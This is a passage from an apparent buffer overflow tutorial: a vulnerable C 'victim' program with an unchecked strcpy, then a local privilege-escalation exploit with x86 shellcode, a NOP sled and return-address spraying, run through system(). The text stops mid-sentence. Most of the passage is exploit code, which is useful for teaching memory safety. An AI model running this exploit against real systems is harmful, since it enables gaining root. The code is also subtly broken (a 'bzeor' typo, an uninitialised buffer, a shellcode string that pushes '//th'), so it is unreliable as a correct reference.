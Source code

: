 ```c
/* 
 * This program will be sacrificed for project
 * programe name: victim
 */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <errno.h>

int main(int argc, char* argv[]) {
  char* buffer;
  int fd;
  
  if(argc != 2)
  {
    printf("Usage: %s <message>\n", argv[0]);
    exit(0);
  }
  
  fd = open("/etc/notes", O_CREAT|O_RDWR|O_APPEND, S_IRUSR|S_IWUSR);
  if(fd == -1)
    perror("in main open()");
    
  strcpy(buffer, argv[1]);  // vulnerable point!

  write(fd, buffer, sizeof(buffer));
  printf("%s\n", buffer);
  
  return 0;
}
```
Here, the owner of /etc/notes is root. So this program should be executed with root privilege.

```c
/*
 * exploit program
 */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char shellcode[] =
"\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68"
"\x2f\x2f\x74\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89"
"\xe1\xcd\x80";

int main(int argc, char* argv[]) {
  char* command, *buffer;
  unsigned long i, ret, offset = 0;
  
  if(argc > 1)
    offset = (unsigned long)atoi(argv[1]);
    
  command = (char*)malloc(300);
  bzeor(command, 300);
  
  strcpy(command, "./victim \'");
  buffer = command + strlen(command);
  
  ret = (unsigned long)(&i - offset);
  
  for(i = 0; i < 268; i += 8)
    *((unsigned long*)(buffer + i)) = ret;
  
  memset(buffer, 0x90, 60);
  memcpy(buffer + 60, shellcode, sizeof(shellcode) - 1);
  strcat(command, "\'");
  
  system(command);
  free(command);
}
```

First step of this exploit is make string which contains    
>./victim 'nopsled + shellcode + address of somewhere of nopsled'   

and store it in command. But 
